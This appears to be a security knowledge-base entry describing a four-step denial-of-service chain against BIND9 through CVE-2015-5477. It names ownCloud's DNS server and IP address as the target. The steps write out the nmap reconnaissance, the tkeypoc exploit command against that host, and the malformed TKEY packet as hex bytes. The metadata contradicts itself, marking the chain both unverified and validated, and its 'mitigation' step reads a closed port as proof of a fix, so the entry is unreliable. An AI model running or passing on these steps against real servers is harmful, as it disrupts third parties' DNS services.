

---
tags:
  - dos
  - bind9
  - dns
  - cve-2015-5477
  - nmap
  - exploit
  - tkey
type: attack_chain
tools:
  - '[[tools/Nmap]]'
  - '[[tools/tkeypoc]]'
  - '[[tools/Telnet]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Impact]]'
verified: false
platforms:
  - Linux
  - Network
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Scan-Target-with-Nmap-for-Vulnerable-BIND9-Services]]'
  - '[[procedures/Confirm-BIND9-TKEY-Vulnerability-CVE-2015-5477]]'
  - '[[procedures/Exploit-BIND9-with-tkeypoc-PoC-for-DoS]]'
  - '[[procedures/Verify-DNS-Service-Mitigation-with-Telnet]]'
step_count: 4
techniques:
  - '[[Vulnerability Scanning]]'
  - '[[Network Denial of Service]]'
updated_at: '2025-12-14T17:26:30.424Z'
description: >-
  A multi-stage attack chain exploiting CVE-2015-5477 in BIND9 to cause denial
  of service on the ownCloud DNS infrastructure via network scanning,
  vulnerability confirmation, and malformed TKEY query exploitation.
skill_level: intermediate
impact_level: high
id: 05645935-41ee-4ef8-add5-a69ccd236ca8
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Vulnerability Scanning]]'
  - '[[Network Denial of Service]]'
---
# BIND9 TKEY Query DoS Exploitation on ownCloud DNS Server

Multi-stage attack chain demonstrating reconnaissance, vulnerability confirmation, exploitation of CVE-2015-5477 in BIND9 version 9.9.4-rpz2.13269.14-P2, and verification of mitigation, resulting in denial of service against the ownCloud DNS service on port 53.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/tkeypoc]]
- [[tools/Telnet]]

### Target Environment

- Linux-based DNS server running vulnerable BIND9 (e.g., version 9.9.4)
- Open UDP/TCP port 53 for DNS
- Network access to the target (e.g., owncloud.com at IP 50.30.33.235)

### Initial Access Requirements

- No credentials required; remote unauthenticated access over the network
- Publicly resolvable hostname or known IP
- No prior access needed; assumes external attacker position

## Detailed Attack Procedures

### Step 1: Initial Reconnaissance
procedure: [[procedures/Scan-Target-with-Nmap-for-Vulnerable-BIND9-Services]]

**Objective**: Identify open ports and vulnerable services on the target host to discover the BIND9 DNS server.

**Instructions**: Perform a network scan using [[commands/nmap-scan-target]] to detect services and versions:

```bash
nmap owncloud.com
```

**Expected Output**: Discovery of host uptime, open ports including 22/tcp (SSH) and 53/tcp (BIND 9.9.4-rpz2.13269.14-P2), with other ports closed or filtered.

**Success Indicators**:
- BIND9 service detected on port 53
- Vulnerable version (9.9.4) identified

### Step 2: Vulnerability Confirmation
procedure: [[procedures/Confirm-BIND9-TKEY-Vulnerability-CVE-2015-5477]]

**Objective**: Validate that the identified BIND9 version is susceptible to CVE-2015-5477, enabling DoS via malformed TKEY queries.

**Instructions**: Review the scan results manually or cross-reference with CVE databases to confirm the version's vulnerability.

**Expected Output**: Confirmation that BIND 9.9.4 is affected, allowing remote DoS through uncontrolled resource consumption from TKEY queries.

**Success Indicators**:
- Version matches known vulnerable range
- CVE details align with DoS impact

### Step 3: Exploitation
procedure: [[procedures/Exploit-BIND9-with-tkeypoc-PoC-for-DoS]]

**Objective**: Trigger denial of service by sending a malformed UDP packet to exploit the TKEY query vulnerability.

**Instructions**: Execute the tkeypoc PoC script using [[commands/tkeypoc-exploit-bind9]] against the target:

```bash
./tkeypoc.py owncloud.com
```

The script sends a payload like: bytearray('4d5501000001000000000103414141034141410000f900ff034141410341414100000a00ff0000000009084141414141414141'.replace(' ', '').decode('hex')) to port 53.

**Expected Output**: Packet sent successfully; target DNS server becomes unresponsive or reboots, disrupting ownCloud infrastructure.

**Success Indicators**:
- No response from DNS service post-exploitation
- Server resource exhaustion observed

### Step 4: Mitigation Verification
procedure: [[procedures/Verify-DNS-Service-Mitigation-with-Telnet]]

**Objective**: Confirm that the vulnerability has been addressed by checking if the DNS port is closed or filtered.

**Instructions**: Attempt a connection to port 53 using [[commands/telnet-test-port]]:

```bash
telnet owncloud.com 53
```

**Expected Output**: Connection refused, indicating the port is closed after mitigation.

**Success Indicators**:
- Connection failure to port 53
- DNS service no longer accessible

## Attack Chain Summary

### Key Achievements

1. Identified vulnerable BIND9 instance via Nmap scanning
2. Confirmed CVE-2015-5477 susceptibility
3. Successfully induced DoS with tkeypoc exploit
4. Verified post-mitigation closure of DNS port

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Vulnerability Scanning]] Vulnerability Scanning
- [[Network Denial of Service]] Network Denial of Service

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Impact]] Impact

---
*Last updated: 2023-10-01T00:00:00Z*
